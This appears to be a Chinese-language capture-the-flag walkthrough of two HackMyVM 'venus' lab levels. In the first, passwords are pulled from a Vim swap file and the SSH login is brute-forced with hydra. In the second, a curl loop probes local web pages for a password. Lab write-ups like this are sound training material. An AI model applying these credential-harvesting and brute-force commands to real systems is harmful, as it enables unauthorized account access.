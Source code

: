 
## **Mission 0x27: ariel -> lola**

-   **任务**: `ariel` 没来得及保存 `lola` 的密码，但留下了一个临时文件 `.goas.swp`。

1.  `.swp` 文件是 Vim 编辑器的交换文件。使用 `strings` 命令可以从中提取可打印的字符，通常能找到有用的信息。

    ```bash
    ariel@venus:~$ strings .goas.swp
    # ... (部分输出)
    -->VVjqJGRrnfKmcgD
    -->bnQgcXYamhSDSff
    -->QsymOOVbzSaKmRm
    # ... (更多密码)
    -->ppkJjqYvSCIyAhK
    Thats my little DIc with my old and current passw0rds:
    ```

2.  文件内容是一个密码列表。由于无法确定哪一个是正确的，需要将列表复制到本地，使用 `hydra` 等工具对 `lola` 用户的 SSH 服务进行爆破。

    ```bash
    # 在本地Kali系统上执行，"pass"文件包含从.swp文件中提取的密码列表
    hydra -l lola -P pass ssh://venus.hackmyvm.eu:5000 -t 64
    ```

3.  Hydra 很快找到了正确的密码 `d3LieOzRGX5wud6`。使用该密码登录 `lola` 账户。

---

## **Mission 0x28: lola -> celeste**

-   **任务**: 用户 `celeste` 留下了一个文件名列表 `pages.txt`，她的密码可能在其中一个 `.html` 页面里。

1.  与 Mission 23 类似，需要编写脚本来测试 `pages.txt` 中的所有可能性。这次是检查哪个页面在本地 Web 服务器上存在。

2.  使用 `while` 循环读取列表，并通过 `curl` 检查每个页面的 HTTP 状态码。

    ```bash
    lola@venus:~$ while read p; do code=$(curl -s -o /dev/null -w "%{http_code}" "http://127.0.0.1/$p.html"); if [ "$code" == "200" ]; then echo "Found: $p.html"; fi; done < pages.txt
    Found: cebolla.html
    ```

3.  找到了返回 `200 OK` 的页面 `cebolla.html`。访问该页面获取密码。

    ```bash
    lola@venus:~$ curl 127.0.0.1/cebolla.html
    VLSNMTKwSV2o8Tn
    ```

4.  切换到 `celeste` 用户。
